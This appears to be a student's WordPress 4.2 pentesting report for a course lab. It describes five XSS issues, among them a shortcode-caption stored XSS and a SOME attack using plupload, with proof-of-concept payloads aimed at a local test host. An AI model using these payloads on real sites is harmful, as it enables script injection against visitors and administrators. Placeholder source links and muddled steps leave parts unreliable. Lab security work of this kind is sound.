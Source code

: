 # Project 7 - WordPress Pentesting

Time spent: **30** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) SOME (similar to XSS execution)
  - [ ] Summary: Web Application Attack that abuses the callback endpoints. Can enforce the victim to execute script methods on any page on the endpoints domain.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - <img src="http://g.recordit.co/CwYanI8pQY.gif" width=250><br> GIF Walkthrough 
  - [ ] Steps to recreate: Leave a comment with a button javascript, after we post it- we get a Button as out comment, so victim clicks on it and weird stuff will pop up.
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 2. (Required) Cross Site Scripting Exploit
  - [ ] Summary: Onload we alert with a payload. Alert will pop out everytime the site loads.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - <img src="http://g.recordit.co/zU5B75JSqB.gif" width=250><br> GIF Walkthrough
  - [ ] Steps to recreate: We leave an URL in the post, sort of like HTTP, every time the page loads- it cannot pop out an alert.
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) XSS
  - [ ] Summary: We would insert this malicious link into the comment to generate a clickable link <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>. Versions before 4.2.3 starting from at least 3.0 (released in 2010) are vulnerable
    - Vulnerability types: Cross Site 
    - Tested in version: 4.2
    - Fixed in version: 4.2.3 Stored XSS
  - <img src="http://g.recordit.co/jDhPM4VzCo.gif" width=250><br> GIF Walkthrough
  - [ ] Steps to recreate: Post malicious script in the comment section, after admin has approved your comment- no auth is needed afterwards.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional)  XSS cont. #4 4.2.3 Stored XSS
  - [ ] Summary: 
    - Vulnerability types: Stored XSS. WordPress shortcode processing manipulates this into the following form
     <a href="</a><a title=" onmouseover=alert('test')  ">link</a>
    - Tested in version: 4.2
    - Fixed in version: The bug was corrected on July 23, 2015. It has been patched automatically for most users.
  - <img src="http://g.recordit.co/Pt3D6BaBmN.gif" width=250><br> GIF Walkthrough
  - [ ] Steps to recreate: Post malicious script in the comment section, after admin has approved your comment- no auth is needed afterwards.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) XSS
  - [ ] Summary: XSS, example of Cross Site Scripting
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 
  - <img src="http://g.recordit.co/K4eoNdeV1T.gif" width=250><br> GIF Walkthrough
  - [ ] Steps to recreate: Create a new post using malicious script 
   abc<img src=a onerror=alert('antistore'). Try publishing the post and everytime you would have to click on the pop up in order to comment or do anything else on the site.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

https://klikki.fi/adv/wordpress3.html

Just some examples of the script

<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:setTimeout("location=\'http://wpdistillery.vm
/wp-includes/js/plupload
/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');  
  setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
}
</script>

http://wpdistillery.vm/<svg onload=alert(1)>



## Resources

- [WordPress Source Browser](https://klikki.fi/adv/wordpress3.html)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with RecordIt.co.

## Notes

Describe any challenges encountered while doing the work

It's a lot of information to process and 2 week just aren't enough time to explore unless you are an advanced hacker.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
